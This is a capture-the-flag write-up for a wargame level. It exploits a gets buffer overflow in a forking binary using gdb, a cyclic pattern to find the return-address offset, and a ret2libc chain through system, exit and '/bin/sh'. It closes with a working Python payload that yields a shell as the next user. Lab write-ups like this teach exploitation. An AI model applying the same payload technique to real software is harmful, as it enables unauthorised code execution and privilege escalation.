 # Level 4

This program asks us for some shellcode after a buffer overflow through gets, let's (not) oblige.

The subtility this time is that a lot of the stuff happens in a child process. Let's tell gdb to follow the child:
```shell
(gdb) set follow-fork-mode child
```

Now we'll find the offset of `eip` with our [usual suspect](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```shell
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
Starting program: /home/users/level04/level04 < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[New process 31421]
child is exiting...
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 31421]
0x41326641 in ?? ()
```
Our offset is at 156

Now let's do a ret2libc attack to be contrarians. [Here's a comprehensive explanation of it I've written](https://gist.github.com/selfsigned/0a836f3d98efc512509cc042b449160a)
```shell
(gdb) p system
$1 = {
    <text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {
    <text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 31421
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
[...]
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]

(gdb) p/x "/bin/sh"
$3 = {0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x0}
(gdb) find /b 0xf7e2c000, 0xf7fd0000, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x0                     
0xf7f897ec
```
Okay, `system -> 0xf7e6aed0` `exit -> 0xf7e5eb70` `"/bin/sh" -> 0xf7f897ec`

```shell
level04@OverRide:~$ (python -c 'print "B"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat) | ./level04 
Give me some shellcode, k
whoami
level05
```
Yeet!
